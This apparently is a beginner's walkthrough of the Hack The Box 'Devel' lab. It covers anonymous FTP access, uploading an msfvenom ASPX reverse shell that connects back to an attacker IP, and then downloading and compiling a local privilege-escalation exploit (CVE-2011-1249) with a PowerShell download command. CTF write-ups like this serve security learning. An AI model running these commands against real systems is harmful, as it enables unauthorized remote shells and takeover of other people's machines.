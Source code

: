 ![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/de0f1e26-120f-4489-a162-9aec23416994)

1.What is the name of the service is running on TCP port 21 on the target machine?
First i need to use nmap, here is the switch i used: nmap -sCV <IP> results:

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/5e6337fa-7500-42b1-a02f-9f69688731fb)

That how we see, port 21 is Microsoft ftpd, we also see in this scan that we can login as Anonymous

2.Which basic FTP command can be used to upload a single file onto the server?
We can check this by man ftp.
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/242e59e5-15d3-4450-95bf-90b4db1b936b)

3.Are files put into the FTP root available via the webserver?
we can check this simply, first i log in to FTP as Anonymous and list file:
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/34dc920d-0449-4ddc-a184-374dc95058a8)

And after this i go to website and view source code, and i find welcome.png, and we can confirm the FTP root available via the webserver 
And the answer for question is "yes"

4.What file extension is executed as a script on this webserver? Don't include the ..
First step i did is a ffuf catalog on webserver, i found something
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/764efa13-cff5-4f11-b371-7d016e907104)
I go to google and find something about aspnet_client on hacktricks, the extension

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/fac28888-698c-40a5-b65a-e68af49bb78a)

Another step to find extenstion executed is interecept with Burp traffic and there we can find 
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/fb28a512-fa26-4afb-9eec-d5d67f259b94)

and also go to google, and there we can find extenstion .aspx

5.Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?
first we need turn on metasploit by command: msfconsole -q 
And then write: search suggester

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/8d7aecd0-2e17-46e3-9dee-2be5eabea7cc)

6.Submit the flag located on the babis user's desktop.
We know the FTP root available via the webserver, we can create the exploit by msfvenom and upload on the FTP server, here is the command that create the RCE.
└─$ msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.14 LPORT=4444 -o reverse-shell.aspx
And we need to go FTP and login as Anonymous and put this riverse shell by this command:
put reverse-shell.aspx
we can see on the FTP server as exploit.
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/eb6f341f-9df1-4732-b35e-92732a334c6f)

And go to website and traffic this name of exploit, and rember you need turn on your nc on port 4444 by this command: nc -lvnp 4444 without this u can't get a RCE.
![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/a1b808ad-a62e-431e-96e9-c1266ed476d6)
And here is the result:

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/93cea7d2-a82e-4eba-8325-59da3e8e140b)

Now we need to find user.txt, because this is a simple CTF this must be in the some user, on Desktop.
But when i try change directory i see some problems on babies and Administrator

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/418a02b7-ab76-4f6e-ae93-48d0867fc0d2)

First my step is write systeminfo and find some exploit.

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/727bb89e-f152-41f7-80ef-a70a63e46254)

Found something on exploit-db CVE number CVE:2011-1249
in this part if you don't have mingw-w64 you need to instal by this command: sudp apt-get install mingw-w64 -y 
I coppy this exploit by: searchsploit -m 40564 
and here is the steps to compilate this exploit:
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
and we will get 40564.exe if u have this now you need to upload this exploit on the reverse-shell, first step is to turn on the: python -m http.server 
And write this command on reverse-shell to download this exploit
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.14:8000/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
After the exploit is download we need to traffic, to c:\Users\Public\Downloads and there execute as exploit by only typing 40564.exe and we got this, access to Administrator :)

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/576969fc-ee1f-4de9-a1d1-344893d56bcb)

![obraz](https://github.com/Anogota/HTB-Devel/assets/143951834/7dfc66b5-b17e-4fd9-8b40-903860571efb)

If u see this, this my first Walkthrough write in English, i hope you enjoy and have fun with my solving this lab. I promise you i will write better next by next Walkthrough and much clearer.
Thank You :P
